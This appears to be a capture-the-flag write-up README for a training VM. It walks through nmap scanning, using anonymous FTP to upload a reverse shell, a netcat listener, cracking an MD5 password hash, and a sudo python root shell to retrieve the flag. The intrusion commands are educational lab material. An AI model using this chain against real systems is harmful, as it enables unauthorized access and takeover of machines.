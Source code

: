 

# Privilege Escalation Exercise: Detailed Walkthrough

## Summary

This README outlines the steps taken to complete a privilege escalation exercise on a virtual machine (VM). The VM setup had some initial misconfigurations that needed to be addressed to proceed. The goal was to gain root access and retrieve the flag from the root.txt file.

You can dowload the vm [here](https://assets.01-edu.org/cybersecurity/local/01-Local.ova).

####  Warning: All the ip used here are for example purpose don't forget to adapt yours.

## Initial Setup and Discovery

1. ### Identify VM MAC Address:
```sh
VBoxManage showvminfo "01-Local1" | grep MAC:
```
Result:

```sh
MAC: 0800277C1675
```

2. ### Scan Local Network for IP Address:
```sh
sudo arp-scan -l | grep 08:00:27:7c:16:75
```
Result:

```sh
172.16.1.255  08:00:27:7c:16:75  PCS Systemtechnik GmbH
```

3. ### Check for Open Ports:

First, check if ports are filtered by using the `-sA` scan option:
```sh
nmap -sA 172.16.1.255
```

This scan shows whether ports are filtered or unfiltered by the firewall. If the ports are not filtered, it indicates no firewall is handling port traffic.

For a more discreet scan, you could use the `-sI` scan option, which uses a zombie host to make the scan harder to trace. However, for this exercise, we will use the `-sS` (TCP SYN) scan:

```sh
sudo nmap -sS 172.16.1.255
```

The TCP SYN scan, also known as a "half-open" scan, is stealthier as it does not complete the TCP handshake.

Result:

```sh
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

4. ### Check for port Access:

I used to check all the access type and found out this one:
```sh
nmap -p 21 --script=ftp-anon 172.16.1.255
```
Result:

```sh
Anonymous FTP login allowed (FTP code 230)
```

## FTP Connection and Reverse Shell

1. #### Connect to FTP as Anonymous:
```sh
ftp 172.16.1.255
```

Use the anonymous username and no password.

2. #### Upload Reverse Shell Script:

- Click [here](https://github.com/YoannLetacq/local/blob/main/reverse.php) to look the reverse shell script.

- Upload script using FTP:
```sh
put reverse.sh
```

3. #### Set Up Listener on Attacker Machine:
```sh
nc -lvnp 1234
```

4. #### Trigger the Reverse Shell:

On the attacker machine navigate to:
```url
http://172.16.1.255/files/reverse.php
```

## Privilege Escalation

1. ### Check Current Directory and Files:
```sh
ls -a
```

2. ### Explore Home Directory for Users:
We see a `shrek` user lets keep that in mind.
```sh
cd /home
ls -a
```

We found an `important.txt` file. 

3. ### Read important.txt:
```sh
cat /home/important.txt
```

Result:

```sh
run the script to see the data
/.runme.sh
```

4. ### Find and Read runme.sh:
```sh
find / -name ".runme.sh" 2>/dev/null
cat /.runme.sh
```
Result:
```sh
⠸⡇⠀⠿⡀⠀⠀⠀⣀⡴⢿⣿⣿⣿⣿⣿⣿⣿⣷⣦⡀
⠀⠀⠀⠀⠑⢄⣠⠾⠁⣀⣄⡈⠙⣿⣿⣿⣿⣿⣿⣿⣿⣆
⠀⠀⠀⠀⢀⡀⠁⠀⠀⠈⠙⠛⠂⠈⣿⣿⣿⣿⣿⠿⡿⢿⣆
⠀⠀⠀⢀⡾⣁⣀⠀⠴⠂⠙⣗⡀⠀⢻⣿⣿⠭⢤⣴⣦⣤⣹⠀⠀⠀⢀⢴⣶⣆
⠀⠀⢀⣾⣿⣿⣿⣷⣮⣽⣾⣿⣥⣴⣿⣿⡿⢂⠔⢚⡿⢿⣿⣦⣴⣾⠸⣼⡿
⠀⢀⡞⠁⠙⠻⠿⠟⠉⠀⠛⢹⣿⣿⣿⣿⣿⣌⢤⣼⣿⣾⣿⡟⠉
⠀⣾⣷⣶⠇⠀⠀⣤⣄⣀⡀⠈⠻⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡇
⠀⠉⠈⠉⠀⠀⢦⡈⢻⣿⣿⣿⣶⣶⣶⣶⣤⣽⡹⣿⣿⣿⣿⡇
⠀⠀⠀⠀⠀⠀⠀⠉⠲⣽⡻⢿⣿⣿⣿⣿⣿⣿⣷⣜⣿⣿⣿⡇
⠀⠀ ⠀⠀⠀⠀⠀⢸⣿⣿⣷⣶⣮⣭⣽⣿⣿⣿⣿⣿⣿⣿⠇
⠀⠀⠀⠀⠀⠀⣀⣀⣈⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠇
⠀⠀⠀⠀⠀⠀⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
    shrek:061fe5e7b95d5f98208d7bc89ed2d569
```
The output contains an encrypted string next to shrek. Let's decrypt it.

5. ### Decrypt the Password Hash:
First, check the hash pattern using a hash analyzer tool, which identifies it as MD5 or MD4 hash type. Use an MD5 decryption tool to decrypt the hash:
Result:
```txt
youaresmart
```

6. ### Switch to shrek User:

First we upgrade our remote to a full tty. And after switch on `shrek`:
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
su shrek
```

Enter the password: `youaresmart.`

7. ### Check Sudo Privileges:
```sh 
sudo -l
```
Result:
```sh
(root) NOPASSWD: /usr/bin/python3.5
```

8. ### Use Python to Spawn Root Shell:

- Run Python as root:
```sh
sudo /usr/bin/python3.5
```
- In the Python shell:
```sh
import os
os.system("/bin/bash")
```

## Retrieve the Flag

1. ### Navigate to Root Directory:
```sh
cd /root
ls -a
```
2. Read `root.txt`:
```sh
cat /root/root.txt
```

Result:
```sh
  /$$$$$$    /$$     
 /$$$_  $$ /$$$$    
| $$$$\ $$|_  $$     
| $$ $$ $$  | $$    
| $$\ $$$$  | $$    
| $$ \ $$$  | $$    
|  $$$$$$/ /$$$$$$  
 \______/ |______/                                                                           
                                                                           
                                                                           
 /$$                                     /$$   /$$ /$$     /$$             
| $$                                    | $$  / $$/ $$   /$$$$             
| $$        /$$$$$$   /$$$$$$$  /$$$$$$ | $$ /$$$$$$$$$$|_  $$             
| $$       /$$__  $$ /$$_____/ |____  $$| $$|   $$  $$_/  | $$             
| $$      | $$  \ $$| $$        /$$$$$$$| $$ /$$$$$$$$$$  | $$             
| $$      | $$  | $$| $$       /$$__  $$| $$|_  $$  $$_/  | $$             
| $$$$$$$$|  $$$$$$/|  $$$$$$$|  $$$$$$$| $$  | $$| $$   /$$$$$$           
|________/ \______/  \_______/ \_______/|__/  |__/|__/  |______/           
                                                                           
                                                                           
                                                                                                                                                     
Congratulations, You have successfully completed the challenge!
Flag: 01Talent@nokOpA3eToFrU8r5sW1dipe2aky
```

## Conclusion
By following the steps outlined above, the root flag was successfully retrieved from the VM. This exercise demonstrated the process of network discovery, exploiting FTP for initial access, and privilege escalation using available sudo privileges.


Made by **Yoann Letacq**


